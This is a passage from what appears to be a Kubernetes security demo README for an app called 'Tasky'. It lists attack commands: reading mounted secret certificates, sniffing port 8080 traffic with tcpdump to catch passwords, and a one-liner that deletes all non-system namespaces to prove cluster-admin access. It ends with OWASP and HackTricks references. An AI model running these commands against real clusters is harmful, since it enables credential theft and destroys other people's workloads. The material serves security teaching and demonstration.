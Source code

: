 Look for interesting things (secrets, certs, package mgr)
```
mount | grep tmpfs
cat /var/lib/kubelet/pods/2694c56e-1064-4c42-b8e3-2d1b67f03112/volumes/kubernetes.io~secret/cert/ca.crt | openssl x509 -text -noout
yum
```

### Tasky sidecar has NET-ADMIN capability
This allows the container to read/write iptable rules, and sniff traffic with tcpdump.
```
tcpdump -i eth0 dst port 8080 -A | grep password
```

## Notes
Delete other namespaces to show you have cluster-admin privileges
```
./kubectl get ns --no-headers=true | sed "/kube-*/d" | sed "/default/d" | sed "/tasky/d" | awk '{print $1;}' | xargs ./kubectl delete ns
```

## References
* [OWASP Cheatsheets](https://cheatsheetseries.owasp.org/index.html)
* [OWASP Cheatsheets Repo](https://github.com/OWASP/CheatSheetSeries)
* [2023 OSS Security Report](https://go.snyk.io/state-of-open-source-security-report-2023-dwn-typ.html)
* [HackTricksCloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes)


[def]: image-2.png